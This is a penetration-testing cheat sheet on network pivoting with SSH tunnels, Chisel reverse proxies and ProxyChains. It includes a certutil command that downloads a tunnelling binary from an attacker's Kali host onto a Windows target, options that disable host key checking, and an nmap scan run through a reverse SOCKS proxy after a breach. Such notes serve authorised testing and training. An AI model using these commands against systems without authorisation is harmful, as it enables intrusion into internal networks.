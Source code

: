 # 1. SSH Tunnels

## 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

## 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

### 1.2.1. Forward static tunnel

#### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

#### Example

![image](images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

#### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

#### Example

![image](images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

## 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> #### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

### 1.3.1. Reverse static tunnel

#### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

#### Example

![image](images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

#### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

#### Example

![image](images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

# 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

## 2.1. Preparing chisel binaries

Prepare server on Kali:

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

## 2.2. Chisel server configuration

#### Syntax

```sh
chisel server --reverse --port <port>
```

#### Example

```sh
chisel server --reverse --port 8080
```

## 2.3. Chisel Client configuration

### 2.3.1. Reverse port forwarding

#### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

#### Example

![image](images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

## 2.3.2. Reverse SOCKS proxy

#### Syntax

```sh
chisel client <server> R:socks
```

#### Example

![image](images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

# 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Note]
> 
> ProxyChains only work for TCP traffic, i.e. ICMP and SYN scans will not work over Proxy Chains
>
> ☝️ nmap scan will actually be crawlingly slow, try to use the pivot box to scan instead
